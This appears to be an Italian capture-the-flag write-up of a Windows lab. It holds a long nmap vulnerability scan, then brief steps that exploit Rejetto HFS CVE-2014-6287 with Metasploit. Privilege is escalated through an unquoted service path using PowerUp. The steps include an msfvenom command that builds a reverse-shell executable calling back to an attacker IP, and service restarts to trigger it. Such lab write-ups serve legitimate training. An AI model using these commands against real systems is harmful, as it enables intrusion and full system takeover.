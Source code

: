 
![](images/image2.png)

# Introduzione

## Sistema operativo

Windows


## Prerequisiti / tools

Metasploit

# Enumeration

```bash
root@ip-10-10-211-230:~\# nmap -sC -sV --script vuln 10.10.166.50Starting Nmap 7.60 ( https://nmap.org ) at 2022-01-18 20:34 GMT  
Nmap scan report for ip-10-10-166-50.eu-west-1.compute.internal (10.10.166.50)  
Host is up (0.00062s latency).  
Not shown: 988 closed ports  
PORT      STATE SERVICE      VERSION  
80/tcp    open  http         Microsoft IIS httpd 8.5  
|\_http-csrf: Couldn't find any CSRF vulnerabilities.  
|\_http-dombased-xss: Couldn't find any DOM based XSS.  
|\_http-server-header: Microsoft-IIS/8.5  
|\_http-stored-xss: Couldn't find any stored XSS vulnerabilities.  
135/tcp   open  msrpc        Microsoft Windows RPC  
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn  
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds  
3389/tcp  open  ssl          Microsoft SChannel TLS  
| fingerprint-strings:  
|   TLSSessionReq:  
|     }vxr4O  
|     FJ,9  
|     steelmountain0  
|     220117202844Z  
|     220719202844Z0  
|     steelmountain0  
|     !{fb;Fy  
|     R=pd,  
|     d=?2fZ  
|     5>Hh  
|     $0"0  
|     sQEEK  
|     p27t  
|     7Wvb  
|     O\*$P.3\*  
|     9}."  
|\_    X|G#g  
| ssl-dh-params:  
|   VULNERABLE:  
|   Diffie-Hellman Key Exchange Insufficient Group Strength  
|     State: VULNERABLE  
|       Transport Layer Security (TLS) services that use Diffie-Hellman groups  
|       of insufficient strength, especially those using one of a few commonly  
|       shared groups, may be susceptible to passive eavesdropping attacks.  
|     Check results:  
|       WEAK DH GROUP 1  
|             Cipher Suite: TLS\_DHE\_RSA\_WITH\_AES\_256\_GCM\_SHA384  
|             Modulus Type: Safe prime  
|             Modulus Source: RFC2409/Oakley Group 2  
|             Modulus Length: 1024  
|             Generator Length: 1024  
|             Public Key Length: 1024  
|     References:  
|\_      https://weakdh.org  
|\_sslv2-drown:  
8080/tcp  open  http         HttpFileServer httpd 2.3  
|\_http-csrf: Couldn't find any CSRF vulnerabilities.  
|\_http-dombased-xss: Couldn't find any DOM based XSS.  
| http-fileupload-exploiter:  
|    
|     Couldn't find a file-type field.  
|    
|\_    Couldn't find a file-type field.  
| http-method-tamper:  
|   VULNERABLE:  
|   Authentication bypass by HTTP verb tampering  
|     State: VULNERABLE (Exploitable)  
|       This web server contains password protected resources vulnerable to authentication bypass  
|       vulnerabilities via HTTP verb tampering. This is often found in web servers that only limit access to the  
|        common HTTP methods and in misconfigured .htaccess files.  
|                
|     Extra information:  
|        
|   URIs suspected to be vulnerable to HTTP verb tampering:  
|     /~login \[GENERIC\]  
|    
|     References:  
|       http://capec.mitre.org/data/definitions/274.html  
|       https://www.owasp.org/index.php/Testing\_for\_HTTP\_Methods\_and\_XST\_%28OWASP-CM-008%29  
|       http://www.imperva.com/resources/glossary/http\_verb\_tampering.html  
|\_      http://www.mkit.com.ar/labs/htexploit/  
|\_http-server-header: HFS 2.3  
|\_http-stored-xss: Couldn't find any stored XSS vulnerabilities.  
| http-vuln-cve2011-3192:  
|   VULNERABLE:  
|   Apache byterange filter DoS  
|     State: VULNERABLE  
|     IDs:  CVE:CVE-2011-3192  OSVDB:74721  
|       The Apache web server is vulnerable to a denial of service attack when numerous  
|       overlapping byte ranges are requested.  
|     Disclosure date: 2011-08-19  
|     References:  
|       http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192  
|       http://seclists.org/fulldisclosure/2011/Aug/175  
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192  
|       http://nessus.org/plugins/index.php?view=single&id=55976  
|\_      http://osvdb.org/74721  
49152/tcp open  msrpc        Microsoft Windows RPC  
49153/tcp open  msrpc        Microsoft Windows RPC  
49154/tcp open  msrpc        Microsoft Windows RPC  
49155/tcp open  msrpc        Microsoft Windows RPC  
49156/tcp open  msrpc        Microsoft Windows RPC  
49163/tcp open  msrpc        Microsoft Windows RPC  
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
SF-Port3389-TCP:V=7.60%I=7%D=1/18%Time=61E72491%P=x86\_64-pc-linux-gnu%r(TL  
SF:SSessionReq,346,"\\x16\\x03\\x03\\x03A\\x02\\0\\0M\\x03\\x03a\\xe7\\$\\x8c\\x18\\x0c\\  
SF:xe6\\x0e\\x06\\x9d\\xff\\x84\\xe8\\xf9My~\\x1b\\x06J\\x0c}vxr4O\\xe9V\\x8e\\xfe\\xe2\\  
SF:x20\\x07\\x10\\0\\0\\xda\\xc7\\x0f\\xc4\\xc36\\xeb#\\xf5,h\\xa3\\xa9\\x13\\xc47\\xfc\\x1  
SF:dR\\n\\xbd\\xebe\\x1a2\\x1d\\x81#\\0/\\0\\0\\x05\\xff\\x01\\0\\x01\\0\\x0b\\0\\x02\\xe8\\0\\  
SF:x02\\xe5\\0\\x02\\xe20\\x82\\x02\\xde0\\x82\\x01\\xc6\\xa0\\x03\\x02\\x01\\x02\\x02\\x10  
SF:\\x12\\xe2FJ,9\\xf4\\xbaFZ\\xbf\\x94\\x95\\"\\xd4\\xe70\\r\\x06\\t\\\*\\x86H\\x86\\xf7\\r\\  
SF:x01\\x01\\x05\\x05\\x000\\x181\\x160\\x14\\x06\\x03U\\x04\\x03\\x13\\rsteelmountain0  
SF:\\x1e\\x17\\r220117202844Z\\x17\\r220719202844Z0\\x181\\x160\\x14\\x06\\x03U\\x04\\  
SF:x03\\x13\\rsteelmountain0\\x82\\x01\\"0\\r\\x06\\t\\\*\\x86H\\x86\\xf7\\r\\x01\\x01\\x01  
SF:\\x05\\0\\x03\\x82\\x01\\x0f\\x000\\x82\\x01\\n\\x02\\x82\\x01\\x01\\0\\xb3!{fb;Fy\\xca{  
SF:u\\xb6\\xa7\\xc2\\(\\xbcq\\xde\\xe0\\x15\\xd3\\xd4#\\x8e24\\xddR=pd,\\x8d\\xb6z\\x0b\\x  
SF:c6\\xea\\xea\\xe9\\\[\\xef\\x8f{\\x97\\x91\\xf4\\xbd\\xa4x\\xe8\\x1e\\"P\\x93\\\[\\xc5\\x1d  
SF:c\\xb4,\\xa9\\x96\\x93s\\xbf\\xd8\\x82G@\\x7fg\\xde\\x9b\\xb4\\^\\xc2\\x20\\xc2\\xba\\xd  
SF:b\\.b\\x92\\xf3;\\x924\\x943\\x06\\xc8g\\xc2\\\*\\x0b\\x9b\\xec\\\]\\x7f\\xd4{\\x8a\\xcb\\x  
SF:20\\xbe'6\\x9f\\x20<m\\xf5\\x9e\\x85\\x0c\\xe6\\xe5\\xad4\\)\\xf3k0\\r\`\\"\\xae\\xb9-\\x  
SF:82\\x8e\\xa2\\xa6\\xf2\\x02mW\\xc6t\\xbb\\xe2\\xa7\\xd9~ti\\xfe\\x8c0\\xbaB\\x90\\xcb4  
SF:%\\x17\\xa0M\\xba\\xa7e\\xa5\\x90\\x030\\xfa\\xfe\\x03\\0\\xd5\\xd41C\\.\\xa5\\tL\\xd1\\x  
SF:eb\\x03d=\\?2fZ\\xd9\\xf9\\n\\x81\\x7f\\x91\\x9d\\xe9\\xb2e!\\x82\\xdb/\\xd5\\xd4\\x11Z  
SF:\\xb8&z\\xfc5>Hh\\x8f\\xb1\\xb7\\xe2\\xac\\x7fd\\xfc\\xb5b2\\x97}\\xd1D&\\0\\x20\\x89\\  
SF:x9b\\x13=#\\xf7\\0\\xa9\\x8d\\x04iHW\\xa4m\\x8a\\x01\\x83m\\xb7T\\xc0};I\\x02\\x03\\x0  
SF:1\\0\\x01\\xa3\\$0\\"0\\x13\\x06\\x03U\\x1d%\\x04\\x0c0\\n\\x06\\x08\\+\\x06\\x01\\x05\\x0  
SF:5\\x07\\x03\\x010\\x0b\\x06\\x03U\\x1d\\x0f\\x04\\x04\\x03\\x02\\x0400\\r\\x06\\t\\\*\\x86  
SF:H\\x86\\xf7\\r\\x01\\x01\\x05\\x05\\0\\x03\\x82\\x01\\x01\\0sQEEK\\x8dL\\xfdNUD\\xca\\\[\\  
SF:xd45\\xfb\\x82\\xb8\\xdc\\xa9\\xdb\\xaa\\xde\\xca\\xb4\\x85\\x8cS\\x96\\x1a~\\x9f\\xae\\  
SF:x18\\x8a%\\xe4\\x85\\xe9\\xa5\\xa5\\xa9\\xa9\\x92\\x13Cm\\xdf\\$ZP\\x04\\xf1\\r\\x83\\xb  
SF:bo\\xe3\\xb9\\xc9=\\xd87W\\xef\\x02\\x9f\\xaf\\x1c\\xe8j\\xee%!f\\xee:\\xf8\\xea\\x0b\\  
SF:xd3\\xb6\\x0e\\xb6\\xd5\\xf0l\\xa9V\\x19\\xc9\\xb2\\x9d\\xbdp27t\\xf6\\xf2\\xa1\\x81x\\  
SF:x83\\x11\\x0e\\xed\\xa1\\x92\\xc57Wvb\\x93\\xe7\\x0b\\x91O\\\*\\$P\\.3\\\*\\x14\\r\\x1a\\x1  
SF:3\\xa6l\\xb5\\x86\\x07\\xc0\\xbf\\xe1\`\\\[f\\xe9\\xb0\\x97'i\\xb3t\\t\\x1e=/\\x89\\x81\\x  
SF:d2\\x99~r\\x1a\\"\\xb7q\\xf5\\xe2\\^\\x07AaI\\xabI\\x84\\x1d\\x06\\xffY~\\x1e\\x07\\x87  
SF:\\x06S\\r\\xc3\\x05\\xfe\\xbc9}\\.\\"\\r\\xa5\\x07D\\xbf-@\\xf1X\\|G#g\\xdf\\xbf-R\\xcb\\  
SF:x9fY\\xd98\\xe3,\\xb3C\\xd2W\\x89\\xeb\\x14h\\x9a\\xc0\\xfb;\\x1cs\\xa4i\\xef\\xfe{W\\  
SF:x94\\xfa\\x89\\xa3\\x98\\x88<\\xb8\\xd24\\xe5v\\t\\\]\\.\\x7fS\\xf2\\xe3\\xc4\\x0e\\xeb\\x  
SF:0e\\0\\0\\0");  
MAC Address: 02:3C:85:AB:9E:B5 (Unknown)  
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows  
  
Host script results:  
|\_samba-vuln-cve-2012-1182: No accounts left to try  
|\_smb-vuln-ms10-054: false|\_smb-vuln-ms10-061: No accounts left to try  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 262.08 seconds
```

# Exploitation

1.  Con metasploit sfruttiamo la vulnerabilità 2014-6287 del server rejetto http file server

Privilege escalation

1.  Scaricare PowerUp.ps1 con:  
    `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`
2.  Caricarlo nella macchina tramite metasploit con:  
    `upload /root/PowerUp.ps1`
3.  Caricare il modulo powershell e avviare la shell:  
    `load powershell`

`powershell\_shell`

4.  Eseguire PowerUp  
    . `.\\PowerUp.ps1`

Invoke-AllChecks

5.  Dai risultati emerge che c’è una vulnerabilità di tipo unquoted service path  
    ![](images/image3.png)
6.  Spiegazione:  
    The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!
7.  Con msfvenom generiamo una reverse shell da caricare  
    `msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=10.10.113.132 LPORT=5555 -f exe -o Advanced.exe`
8.  Caricare l’eseguibile nella cartella del programma ad un livello superiore:![](images/image1.png)
9.  Mettersi in ascolto con netcat
10.  Riavviare il servizio  
    `sc stop AdvancedSystemCareService9  `
    `sc start AdvancedSystemCareService9`
11.  su windows l’equivalente di cat è `type root.txt && type CON`
